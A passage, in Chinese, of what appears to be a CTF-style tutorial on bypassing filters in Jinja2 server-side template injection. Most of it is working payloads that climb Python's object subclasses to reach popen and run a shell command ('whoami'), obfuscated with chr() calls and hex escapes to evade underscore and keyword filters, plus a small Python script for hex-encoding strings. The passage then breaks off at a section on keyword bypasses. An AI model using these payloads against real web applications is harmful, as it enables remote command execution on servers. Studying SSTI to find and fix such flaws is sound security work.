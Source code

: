 最后 payload 如下

```
{% set chr = ().__class__.__base__.__subclasses__()[7].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[257].__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```

### 过滤下划线

过滤了`_`

*   编码绕过
    

使用十六进制编码绕过，`_`编码后为`\x5f`，`.`编码后为`\x2E`

payload 如下

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[376]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['popen']('whoami')['read']()}}
```

这里甚至可以全十六进制绕过，顺便把关键字也一起绕过，这里先给出个 python 脚本方便转换

```
string1="__class__"
string2="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
def tohex(string):
  result = ""
  for i in range(len(string)):
      result=result+"\\x"+hex(ord(string[i]))[2:]
  print(result)

tohex(string1) #\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f
print(string2) #__class__
```

随便构造个 payload 如下

```
{{""["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[64]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]("\x6f\x73")["\x70\x6f\x70\x65\x6e"]("whoami")["\x72\x65\x61\x64"]()}}
```

*   `request`绕过
    

在上面的过滤引号已经介绍过了，这里不再赘述

### 过滤关键字

首先要看关键字是如何被过滤的

如果是替换为空，可以尝试双写绕过，或者使用黑名单逻辑漏洞错误绕过，即使用黑名单最后一个关键字替换绕过

如果直接 ban 了，就可以使用字符串拼接的方式等方法进行绕过，常用方法如下
